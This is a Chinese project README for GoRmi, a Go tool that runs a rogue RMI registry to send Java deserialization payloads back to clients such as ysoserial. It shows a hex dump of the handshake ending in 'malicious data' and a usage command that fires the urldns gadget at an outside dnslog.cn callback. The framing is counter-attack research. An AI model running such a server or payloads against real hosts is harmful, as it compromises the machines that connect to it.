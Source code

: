 # GoRmi

## 介绍

该项目是通过go语言实现防止rmi利用被反置的问题。[反序列化小子捕获器-反制ysoserial](https://mp.weixin.qq.com/s?__biz=MzIxNDAyNjQwNg==&mid=2456098663&idx=1&sn=fc048826005d4786ab56679861b1c43d&chksm=803c66aeb74befb88fc8e2f5e51853f33cc207ceaa1208936b1d9892a77cf3bdeb33b884f6b1&mpshare=1&scene=23&srcid=12291XhDYwX8icWSjvPyf5zl&sharer_sharetime=1640758586260&sharer_shareid=33a823b10ae99f33a60db621d83241cb#rd)

通过简单的协议分析。

![image-20211230010433011](img/image-20211230010433011.png)

```java
client--->server
    4a524d4900024b
    length:7
server--->client
	4e00093132372e302e302e310000xxxx  随机 为客户端的随机port
	length:16
	
client--->server
	000b 31302e32332e37312e3334 00000000      11	
	前面2个字节是后面ip的长度16进置
	xx ip xxxx
	length:17
(yso中带的)
50aced00057722000000000000000000000000000000000000000000000000000144154dc9d4e63bdf
length:41
	
server--->client
51aced0005770f01e4d810120000017e0572075e8004757200135b4c6a6176612e6c616e672e537472696e673badd256e7e91d7b470200007078700000000274000c48656c6c6f5365727669636574001270776e656433373233303338373837303030

client--->server
52

server--->client
53

client--->server
恶意数据
```

## 使用

在cli文件夹中进行编译，然后就可以利用

```
GoRmi.exe --ip 127.0.0.1 --port 9001 --payload urldns  --cmd "http://wb72qk.dnslog.cn"
```

项目中是通过二进制数据实现的gadgets，所以有一部分gadget不好构造(太懒了)，所以就没有全部完成。感兴趣的师傅可以进行pr操作。

谢谢！！！

## 特别说明

因为自己不擅长go语言，所以参考了大哥4ra1n的[Gososerial](https://github.com/EmYiQing/Gososerial)项目，并且在atao大哥的帮助下完成了该项目。

可能你感觉代码写的非常垃圾，确实是这样的，不过还是希望帮助到你。

## 最后
如果感觉不错，希望给出你宝贵的star。
